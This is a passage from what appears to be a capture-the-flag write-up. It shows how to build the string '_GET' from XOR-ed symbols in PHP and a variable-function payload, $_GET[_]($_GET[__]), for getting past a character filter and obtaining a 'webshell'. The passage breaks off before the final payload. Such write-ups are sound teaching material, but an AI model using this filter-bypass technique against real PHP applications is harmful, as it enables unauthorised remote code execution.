 ```php
<?php
    echo "{" ^ ">";
?>
```

![answer4](../assets/img/web/answer4.png)

```php
<?php
    echo "{" ^ "/";
?>
```

![answer5](../assets/img/web/answer5.png)

So we can know that `_GET` is constructed like this!

#### Get the `_GET` parameter

How do we get the `_GET` parameter? We can construct the following string:

```php
<?php
    echo ${$_}[_](${$_}[__]); //$_GET[_]($_GET[__])
?>
```

According to the previous construction, `$_` has become `_GET`. Naturally, `$_ = _GET`. We built `$_GET[__]` to get the
parameter values.

#### Incoming parameters

At this point we just need to call the `getFlag` function to get the `webshell` just fine, constructed as follows:
